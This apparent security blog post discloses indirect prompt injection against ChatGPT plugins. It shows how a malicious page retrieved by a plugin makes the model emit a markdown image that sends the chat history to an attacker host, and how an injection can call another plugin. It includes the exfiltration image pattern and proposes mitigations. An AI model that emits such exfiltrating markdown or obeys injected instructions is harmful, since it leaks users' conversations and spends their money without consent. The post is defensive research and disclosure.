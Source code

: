 ```yaml
---
title: "ChatGPT Plugins: Data Exfiltration via Images & Cross Plugin Request Forgery"
date: 2023-05-16T07:45:38-07:00
tags: [
     "aiml", "machine learning","red", "threats", "ai injections"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "ChatGPT: Data Exfiltration via Plugins and Markdown Injection"
  description: "Plugins can return malicious content and hijack your AI."
  image: "https://embracethered.com/blog/images/2023/hacker-white.jpg"
---
```


This post shows how a malicious website can take control of a ChatGPT chat session and exfiltrate the history of the conversation.

## Plugins, Tools and Integrations

With plugins, data exfiltration can happen by sending too much data into the plugin in the first place. More security controls and insights on what is being sent to the plugin are required to empower users.

**However, this post is not about sending too much data to a plugin, but about a malicious actor who controls the data a plugin retrieves**.

### Untrusted Data and Markdown Injection

The individual controlling the data a plugin retrieves can exfiltrate chat history due to ChatGPT's rendering of markdown images. 

Basically, if the LLM returns a markdown image in the form of

```
![data exfiltration in progress](https://attacker/q=*exfil_data*)
```

ChatGPT will render it automatically and retrieve the URL. During an Indirect Prompt Injection the adversary controls what the LLM is doing (I call it AI Injection for a reason), and it can ask to summarize the past history of the chat and append it to the URL to exfiltrate the data.

I'm not the only one who points this out, [Roman Samoilenko has observed and posted about this vulnerability in ChatGPT before](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2). Roman found it March 14th. I ran across it separatley a few weeks after.

### Proof of Concept Demonstration

This is possible with plugins, e.g. via the `WebPilot Plugin` or check out the [YouTube Transcript Plugin Injection](/blog/posts/2023/chatgpt-plugin-youtube-indirect-prompt-injection/) I posted about the other day. 

The LLM's response can contain markdown (or instruct the AI to build it on the fly), summarize the past conversation, URL encode that summary and append that as query parameter. And off it goes to the attacker.

Here is how this looks in action:

[![Data exfiltration in progress](/blog/images/2023/ai-exfil-progress.png)](/blog/images/2023/ai-exfil-progress.png)

The text that is being exfiltrated including "TooManySecrets123" is something that was written earlier in the chat conversation.

And here is an end to end video POC:

{{< youtube PIY5ZVktiGs >}}


Feel free to skip forward in the middle section - it's a bit slow. 

But wait, there is more....

### Can an attacker call another Plugin during the injection?

**Short answer is yes.** 

**This is an interesting variant of `Cross Site Request Forgery` actually, but we will need a new name for it, maybe `Cross Plugin Request Forgery`.**

Here is an example of an Indirect Prompt Injection calling another plugin (Expedia) to look for flights:

[![AI Injections searches for flights](/blog/images/2023/ai-injection-call-plugin.png)](/blog/images/2023/ai-injection-call-plugin.png)

Yes, random webpages and comments on sites will soon hijack your AI and spend your money.

## Mitigations and Suggestions

Safe AI assistants would be really awesome to have, the power of ChatGPT is amazing! So what could be done to improve the security posture? 

- Its unclear why plugins have access to the entire conversation context. This could be isolated. It would be better if plugins go off do their work, rather then giving it access to the entire conversation history, or allow invoking other plugins.
- A security contract for plugins is needed. Who is responsible for what? What data is sent to the plugin? Currently there is no defined or enforced schema that could help mitigate such problems. Open AI mentions **Human in the loop** as a [core safety best practice](https://platform.openai.com/docs/guides/safety-best-practices), but end-users have little to no control at the moment once they start using plugins.
- In fact the idea of having some sort of **kernel LLM** and other sandbox LLM is discussed by [Simon Willison, who has thought about this already in a lot more detail](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/).
- NVIDIA has been working on [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/) to help keep bots in check
- Scenarios like rendering images could be implemented as a dedicated feature, rather than depending on the convenience of markdown. (e.g. links being returned that are not injected into the chat context, but as references after the main message).
- Only use and point plugins to data you fully trust. 

A lot more research is needed, both from offensive and defensive side. And at this point, with the speed of adoption and new tools being released it seems that raising awareness to have more smart people look into this (and how to fix it) is the best we can do.

## Conclusion

With the advent of plugins Indirect Prompt Injections are now a reality within ChatGPT's ecosystem. As attacks evolve we will probably learn and see nefarious text and instructions on websites, blog posts, comments,.. to attempt to take control of your AI.

### Responsible Disclosure

I first disclosed the image markdown injection issue to Open AI on April, 9th 2023. 

After some back and forth, and highlighting that plugins will allow to exploit this remotely, I was informed that image markdown injection is a feature and that no changes are planned to mitigate this vulnerability.


## References

* [Roman Samoilenko - New prompt injection attack on ChatGPT web version. Markdown images can steal your chat data.](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2)
* [Open AI Safety Best Practices](https://platform.openai.com/docs/guides/safety-best-practices)
* [Dual LLM pattern](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/)
* [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/)
